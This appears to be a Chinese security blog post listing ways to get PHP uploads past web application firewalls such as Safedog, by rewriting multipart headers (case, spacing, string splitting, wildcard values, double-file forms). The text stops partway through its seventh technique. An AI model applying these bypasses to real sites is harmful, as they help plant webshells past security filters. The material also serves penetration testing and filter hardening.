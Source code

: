 title: 上传绕过技巧
author: Believe firmly
tags:
  - 笔记
  - web技术
  - ''
categories: []
date: 2019-01-06 15:38:00
---
<div class="entry-content clearfix">
<p style="color:#red" class="has-text-color has-background has-black-background-color"> WAF绕过,安全狗绕过,WTS-WAF&nbsp;绕过上传,百度云上传绕过,360主机上传绕过,MIME类型绕过,文件内容检测绕过,多次上传Win特性绕过,条件竞争绕过,CONTENT-LENGTH绕过,文件内容检测绕过,垃圾数据填充绕过,文件扩展名绕过,ashx上传绕过,特殊文件名绕过,Windows流特性绕过,00截断绕过上传,htaccess解析漏洞,Apache解析漏洞,IIS解析漏洞,Nginx解析漏洞,文件包含绕过 </p>
<h3 id="waf绕过">WAF绕过</h3>
<h4 id="安全狗绕过">安全狗绕过</h4>
<p>1.绕过思路：对文件的内容，数据。数据包进行处理。</p>
<pre class="wp-block-code"><code class="hljs bash">关键点在这里Content-Disposition: form-data; name=<span class="hljs-string">"file"</span>; filename=<span class="hljs-string">"ian.php"</span>
将form-data;            修改为~form-data;</code></pre>
<p>2.通过替换大小写来进行绕过</p>
<pre class="wp-block-code"><code class="hljs bash">Content-Disposition: form-data; name=<span class="hljs-string">"file"</span>; filename=<span class="hljs-string">"yjh.php"</span>
Content-Type: application/octet-stream
将Content-Disposition    修改为content-Disposition
将 form-data            修改为Form-data
将 Content-Type         修改为content-Type</code></pre>
<p>3.通过删减空格来进行绕过</p>
<pre class="wp-block-code"><code class="hljs makefile"><span class="hljs-section">Content-Disposition: form-data; name="file"; filename="yjh.php"</span>
<span class="hljs-section">Content-Type: application/octet-stream</span>
<span class="hljs-section">将Content-Disposition: form-data          冒号后面 增加或减少一个空格</span>
将form-data; name=<span class="hljs-string">"file"</span>;                分号后面 增加或减少一个空格
将 Content-Type: application/octet-stream   冒号后面 增加一个空格</code></pre>
<p>4.通过字符串拼接绕过</p>
<pre class="wp-block-code"><code class="hljs bash">看Content-Disposition: form-data; name=<span class="hljs-string">"file"</span>; filename=<span class="hljs-string">"yjh3.php"</span>
将 form-data 修改为   f+orm-data
将 from-data 修改为   form<span class="hljs-_">-d</span>+ata</code></pre>
<p>5.双文件上传绕过</p>
<pre class="wp-block-code"><code class="hljs cs">&lt;form action=<span class="hljs-string">"https://www.xxx.com/xxx.asp(php)"</span> method=<span class="hljs-string">"post"</span>
name=<span class="hljs-string">"form1"</span> enctype=<span class="hljs-string">"multipart/form‐data"</span>&gt;
&lt;input name=<span class="hljs-string">"FileName1"</span> type=<span class="hljs-string">"FILE"</span> <span class="hljs-keyword">class</span>=<span class="hljs-string">"tx1"</span> size=<span class="hljs-string">"40"</span>&gt;
&lt;input name=<span class="hljs-string">"FileName2"</span> type=<span class="hljs-string">"FILE"</span> <span class="hljs-keyword">class</span>=<span class="hljs-string">"tx1"</span> size=<span class="hljs-string">"40"</span>&gt;
&lt;input type=<span class="hljs-string">"submit"</span> name=<span class="hljs-string">"Submit"</span> <span class="hljs-keyword">value</span>=<span class="hljs-string">"上传"</span>&gt;
&lt;/form&gt;</code></pre>
<p>6.HTTP header 属性值绕过</p>
<pre class="wp-block-code"><code class="hljs bash">Content-Disposition: form-data; name=<span class="hljs-string">"file"</span>; filename=<span class="hljs-string">"yjh.php"</span>
我们通过替换form-data 为*来绕过
Content-Disposition: *; name=<span class="hljs-string">"file"</span>; filename=<span class="hljs-string">"yjh.php"</span></code></pre>
<p>7.HTTP header 属性名称绕过</p>
<pre class="wp-block-code"><code class="hljs bash">源代码:
Content-Disposition: form-data; name=<span class="hljs-string">"image"</span>; filename=<span class="hljs-string">"085733uykwusqcs8vw8wky.png"</span>Content-Type: image/png